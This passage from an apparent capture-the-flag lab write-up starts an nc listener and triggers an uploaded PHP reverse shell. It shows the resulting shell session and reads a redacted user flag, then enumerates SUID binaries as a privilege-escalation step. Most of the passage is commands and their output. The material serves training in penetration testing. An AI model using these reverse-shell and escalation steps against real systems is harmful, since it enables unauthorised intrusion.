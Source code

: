 ```text
```

The directory where the reverse shell was uploaded is likely `http://$ip:3333/internal/uploads/`.
Now is time to start a `nc` listener on port `8080`.

```text
$ nc -lvnp 8080
```

Can we launch the script from the uploads directory?
Navigating to `http://$ip:3333/internal/uploads/` displays an Apache web directory.
And navigating to our reverse shell script at `./reverse.phtml` causes a connection on our `nc` listener.

```text
$ nc -lvnp 8080
listening on [any] 8080 ...
connect to [10.2.105.89] from (UNKNOWN) [10.10.186.25] 36404
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 19:03:06 up  2:43,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

This was a successful user shell.
From here the `user.txt` flag was readable at `/home/bill/user.txt`

```text
$ cat /home/bill/user.txt
[[ REDACTED ]]
```


### Privilege escalation {#privilege-escalation}

To gain higher permissions on the server, a first step is to try and exploit any misconfigured executable with `SUID` permissions.

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

```text
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 76408 Jul 17  2019 /usr/lib/squid/pinger
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
```